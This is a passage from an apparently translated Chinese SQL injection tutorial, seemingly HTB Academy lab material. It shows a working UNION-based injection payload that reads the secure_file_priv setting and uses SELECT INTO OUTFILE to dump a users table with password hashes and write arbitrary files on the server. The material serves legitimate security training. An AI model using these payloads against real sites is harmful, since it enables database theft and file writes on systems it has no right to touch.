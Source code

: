 最终的 SQL 查询如下：

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

因此，与其他注入查询类似`UNION`，我们可以使用以下 payload 获得上述查询结果。请记住再添加两列`1`&`4`作为垃圾数据，总共有 4 列'：

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![img](https://p.ipic.vip/h557d4.jpg)

结果显示该`secure_file_priv`值为空，这意味着我们可以将文件读/写到任何位置。

------

### 选择进入 OUTFILE

现在我们已经确认我们的用户应该将文件写入后端服务器，让我们尝试使用语句来做到这一点`SELECT .. INTO OUTFILE`。SELECT [INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/)语句可用于将来自选择查询的数据写入文件。这通常用于从表中导出数据。

要使用它，我们可以`INTO OUTFILE '...'`在查询之后添加以将结果导出到我们指定的文件中。下面的示例将表的输出保存`users`到文件中`/tmp/credentials`：

 secure_file_priv

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

如果我们转到后端服务器和`cat`文件，我们会看到该表的内容：

 secure_file_priv

```shell-session
sl1aun@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

也可以直接将`SELECT`字符串写入文件，让我们可以向后端服务器写入任意文件。

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

当我们`cat`打开文件时，我们会看到该文本：

 secure_file_priv

```shell-session
sl1aun@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

 secure_file_priv
